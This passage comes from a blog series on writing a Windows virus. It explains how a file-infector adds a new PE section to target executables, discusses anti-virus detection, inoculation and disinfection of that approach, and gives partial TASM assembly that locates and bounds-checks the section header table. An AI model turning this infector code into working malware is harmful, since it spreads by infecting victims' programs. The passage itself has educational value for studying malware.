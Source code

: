 The downsides of this approach relate to anti-virus. Putting it bluntly adding a new section is not subtle. You can identify whether a file is infected or not based on the presence of the new section (in fact that's how I prevent reinfection). You could even "inoculate" files against infection by adding a benign section with the same name as the virus section. Unlike options 1 and 2, this option also changes the infected file's size on disk. Lastly, from an AV perspective it's easy to disinfect infected programs by restoring the original entry point and deleting the malicious segment. Since I was mostly unconcerned with AV these downsides were acceptable.

At a high level adding a new section means:

1. Increasing the `NumberOfSections` `WORD` in the `IMAGE_NT_HEADERS`'    `FileHeader`.
1. Finding the end of the `IMAGE_SECTION_HEADERS` array and adding one more    entry.
1. Calculating the correct `VirtualSize`, `SecHdrVirtualAddress`,    `SizeOfRawData` and `PointerToRawData` for the new `IMAGE_SECTION_HEADER`.
1. Setting the correct `SecHdrCharacteristic` flag for the new    `IMAGE_SECTION_HEADER`.

Increasing the `NumberOfSections` is self explanatory. Finding the end of the `IMAGE_SECTION_HEADERS` array requires some math. The start of this array is always immediately after the end of the base PE `IMAGE_NT_HEADERS` structure. I knew where the start of the PE structure is (the `e_lfanew` pointer from the `IMAGE_DOS_HEADER`) and I knew the size of the `IMAGE_NT_HEADERS` structure. That gives me the end of the PE structure and the start of the `IMAGE_SECTION_HEADER` array. I can calculate the offset to the end of the array by multiplying `NumberOfSections` by the size of each `IMAGE_SECTION_HEADER` structure.

```tasm {linenos=true}
; inputs:   `eax`              -> pointer to the start of `IMAGE_NT_HEADERS`
;                                 in the target .exe
; outputs:  `numberOfSections` -> number of sections in the target .exe
;           `segHeaders`       -> pointer to the start of the
;                                `IMAGE_SECTION_HEADER`s in the target .exe
;           `lastSegHeader`    -> pointer to the start of the last
;                                `IMAGE_SECTION_HEADER` in the target .exe
;
; Copy down how many sections the target PE has
mov cx, (IMAGE_NT_HEADERS [eax]).FileHeader.NumberOfSections
movzx ecx, cx
; If there are zero sections, something is off, move on
cmp ecx, 0h
je findnext
; Save the number of sections
mov [numberOfSections], ecx

; Move ahead to the section table
add eax, size IMAGE_NT_HEADERS

; Check that the pointer is still within the file size
mov ecx, eax
sub ecx, [targetP]
cmp ecx, [targetFileSize]
jge findnext

; Check that the last segment specified is within the file size
mov ecx, [numberOfSections]
mov edx, size IMAGE_SECTION_HEADER
imul ecx, edx
mov ebx, eax
add ebx, ecx
sub ebx, [targetP]
cmp ebx, [targetFileSize]
jge findnext

; Save the location of the first section header
mov [segHeaders], eax

; The last segment header should be at an offset:
;   sizeof IMAGE_SECTION_HEADER * numberOfSections - 1
```

[welcome]: /2019/01/lets-write-a-virus/
[setup]: /2019/01/getting-set-up/